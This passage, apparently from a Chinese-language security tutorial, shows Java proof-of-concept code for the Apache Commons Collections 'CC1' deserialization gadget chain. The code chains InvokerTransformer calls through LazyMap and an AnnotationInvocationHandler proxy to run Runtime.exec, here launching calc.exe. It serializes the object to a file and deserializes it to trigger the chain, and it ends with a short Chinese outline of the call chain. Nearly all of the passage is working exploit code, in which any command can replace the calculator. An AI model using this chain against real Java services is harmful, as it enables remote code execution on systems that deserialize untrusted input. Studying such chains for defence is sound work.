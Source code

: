 ```java

                new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),

                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),

                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),

        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);

        FileOutputStream fileOutputStream = new FileOutputStream("./cc1.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(handler);
        objectOutputStream.close();
        fileOutputStream.close();

        FileInputStream fileInputStream = new FileInputStream("./cc1.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
        objectInputStream.close();
        fileInputStream.close();
    }
}


```

调用链
```
AnnotationInvocationHandler.readObject()
->$Proxy.entrySet()动态代理执行AnnotationInvocationHandler.invoke()
->LazyMap.get()
->ChainedTransformer.transform() (循环回调)
->InvokerTransformer.transform()
```
![image.png](http://moonsec.top/articlepic/9c878ebad02e39b94a709ac3ef3b3eb6.png)
